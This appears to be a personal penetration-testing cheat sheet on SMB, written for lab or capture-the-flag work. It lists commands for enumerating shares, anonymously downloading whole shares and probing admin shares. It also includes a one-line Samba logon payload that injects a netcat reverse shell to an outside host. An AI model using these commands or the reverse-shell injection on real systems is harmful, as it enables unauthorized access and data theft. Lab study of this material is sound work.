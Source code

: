 ```yaml
---
creation date: December 19th 2022
last modified date: December 19th 2022
aliases: []
tags: #📕
---
```


Primary Categories: { Add link(s) [[]] back to related PRIMARY categories }
Secondary Categories:  { Add link(s) [[]] back to related SECONDARY categories }
Links: {Add link(s) [[]] to related terms}
Search Tag: #📕  

# [[SMB]]  
___

## Description:  

**To see which shares are available on a given host, run:


```
#Use impacket-smbclient to enumerate shares, Ive had issues with smbclient

impacket-smbclient user@10.10.110.5

smbclient -L //192.168.101.11/

enum4linux -S 192.168.101.11

sudo nmap --script smb* 192.168.93.40

#To download everything in a directory

smbget -R smb://fileserver/directory
smbget -U anonymous -R "smb://dc01.coder.htb/Development/Temporary Projects"

```


**Try common shares if you cannot list them:

```
smbclient //192.168.93.40/ipc$
smbclient //192.168.93.40/c$
smbclient //192.168.93.40/admin$

```


**to put a file on the share:

`put test.txt

**To get a file:

`get example.txt

**Reverse shells:

`logon “/=`nc 192.168.49.101 4444 -e /bin/bash`"


**Hosting a smb share
 
`impacket-smbserver public .

**Download everything**
`smbget -R smb://fileserver/directory`
`smbget -U anonymous -R "smb://dc01.coder.htb/Development/Temporary Projects"`

___

## Resources:

| Hyperlink | Info |
| --------- | ---- |


Created Date: December 19th 2022 (01:56 pm)  
Last Modified Date: <%+tp.file.last_modified_date("MMMM Do YYYY (hh:ss a)")%>
